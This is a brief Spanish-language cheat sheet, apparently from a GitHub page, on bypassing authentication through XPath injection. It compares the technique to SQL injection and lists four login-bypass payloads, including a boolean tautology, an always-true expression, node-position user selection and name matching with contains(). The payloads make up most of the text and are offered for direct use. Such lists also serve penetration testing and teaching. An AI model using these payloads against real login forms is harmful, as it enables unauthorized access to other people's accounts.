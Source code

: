 ## Authentication bypass

El xpath injection funciona parecido a las SQLI (es como una prima). Posee una sintaxis diferente y aborda los indexes de nodos dentro de un xml.

#### Bypass mediante boolean simple:

    admin' or '1'='1

#### Bypass mediante un true absoluto

    ' or true() or '

#### Buscar un usuario por index de nodo para el logueo

    ' or position()=2 or '

#### Bypass buscando un usuario específico:

    ' or contains(.,'admin') or '


